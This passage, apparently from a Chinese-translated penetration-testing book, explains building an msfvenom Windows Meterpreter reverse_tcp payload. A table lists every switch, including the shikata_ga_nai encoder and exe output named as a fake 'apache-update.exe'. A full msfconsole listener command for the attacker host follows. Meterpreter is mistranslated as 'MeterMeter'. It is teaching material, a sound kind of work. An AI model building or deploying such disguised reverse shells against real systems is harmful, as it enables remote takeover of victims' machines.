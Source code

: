 # 使用 msfvenom 生成有效负载

现在我们已经熟悉了`msfvenom`实用程序支持的所有有效负载、编码器、格式和平台，让我们尝试生成一个示例有效负载，如以下屏幕截图所示：

![](img/9014fdb6-b1c9-4c40-a5fd-50ed1cd45567.jpg)

下表详细说明了上述`msfvenom`命令中使用的每个命令开关：

| **开关** | **说明** |
| `-a x86` | 这里，生成的有效负载将在 x86 体系结构上运行 |
| `--platform windows` | 这里，生成的有效负载是针对 Windows 平台的 |
| `-p windows/meterpreter/reverse_tcp` | 这里，有效负载是带有反向 TCP 的 MeterMeter |
| `LHOST= 192.168.44.134` | 此处，攻击者系统的 IP 地址为`192.168.44.134` |
| `LPORT= 8080` | 此处，攻击者系统上监听的端口号为`8080` |
| `-e x86/shikata_ga_nai` | 这里，要使用的有效载荷编码器是`shikata_ga_nai` |
| `-f exe` | 这里，有效载荷的输出格式为`exe` |
| `-o /root/Desktop/apache-update.exe` | 这是保存生成的有效负载的路径 |

一旦我们生成了一个负载，我们需要设置一个侦听器，一旦负载在我们的目标系统上执行，它将接受反向连接。以下命令将在端口`8080`上的 IP 地址`192.168.44.134`上启动 MeterMeter 侦听器：

```
msfconsole -x "use exploit/multi/handler; set PAYLOAD windows/meterpreter/reverse_tcp; set LHOST 192.168.44.134; set LPORT 8080; run; exit -y"
```

![](img/61aaa5da-67dc-4c3f-999a-ebce60a4f57f.jpg)
